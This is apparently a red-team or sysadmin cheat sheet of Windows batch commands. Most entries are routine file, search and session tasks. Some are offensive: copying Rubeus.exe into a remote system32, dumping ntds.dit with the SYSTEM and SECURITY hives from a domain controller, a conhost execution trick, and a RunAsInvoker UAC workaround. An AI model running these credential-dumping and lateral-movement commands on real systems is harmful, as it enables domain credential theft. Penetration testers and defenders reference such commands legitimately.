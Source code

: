 # Copy files between systems
## File
```batchfile
xcopy "C:\Rubeus.exe" "\\[computer.domain.local]\C$\Windows\system32\"
```
## Directory
### xcopy
```batchfile
xcopy "C:\temp\" "\\[computer.domain.local]\" /E /H /C /I
```
### robocopy
```batchfile
robocopy "C:\temp\" "\\[computer.domain.local]\temp\ /MIR"
```

# Recursively delete a folder and everything inside it
## rd
```batchfile
rd /S /Q "C:\Users\[user]\Downloads\[folder]"
```

## robocopy
```batchfile
robocopy "C:\empty_folder\" "\\[computer.domain.local]\folder_to_delete\ /MIR"
```

# Dump ntds.dit on a domain controller
```batchfile
ntdsutil "ac i ntds" "ifm" "create full C:\Windows\Temp\xn--5o8hui" q q
xcopy "\\<dc>.<domain.local>\C$\Windows\Temp\xn--5o8hui\Active Directory\ntds.dit" C:\<dc>\
xcopy "\\<dc>.<domain.local>\C$\Windows\Temp\xn--5o8hui\registry\SYSTEM" C:\<dc>\
xcopy "\\<dc>.<domain.local>\C$\Windows\Temp\xn--5o8hui\registry\SECURITY" C:\<dc>\
rmdir /S C:\Windows\Temp\xn--5o8hui\
```

# Run commands via [conhost](https://lolbas-project.github.io/lolbas/Binaries/Conhost/)
```batchfile
conhost cmd.exe
```

# Find files or directories

# Find all files and directories
```batchfile
dir "C:\Users\*.txt" /s
```
## Print only file names (no heading information or summary)
```batchfile
dir /s /b /o:gn "C:\Users\*.txt"
```

## List all files in the current directory and subdirectories, sorted by the last modified date in descending order
```batchfile
dir /O-D /S "C:\Users\"
```

# Merge two binary files
```batchfile
copy /b cmd.exe+calc.exe new_cmd.exe
```

# Get hash of a file
```batchfile
certutil -hashfile C:\Windows\System32\cmd.exe SHA256
```

# [Displays the device join status](https://learn.microsoft.com/en-us/azure/active-directory/devices/faq#how-do-i-know-what-the-device-registration-state-of-the-client-is)
```batchfile
dsregcmd.exe /status
```
# Get a list of logged user sessions from a remote computer
## query session
```batchfile
query session /server:[server]
```
### qwinsta
```batchfile
qwinsta /server:[server]
```
## query user
```batchfile
query user /server:[server]
```

# Install Windows applications as current user
```batchfile
set __COMPAT_LAYER=RunAsInvoker
start installer.exe
```

# Find a listening port
```batchfile
netstat -aofn | findstr :10080
```

# Run a command from remote share
```batchfile
start cmd /k "\\[computer.domain.local]\echo-server.exe"
```
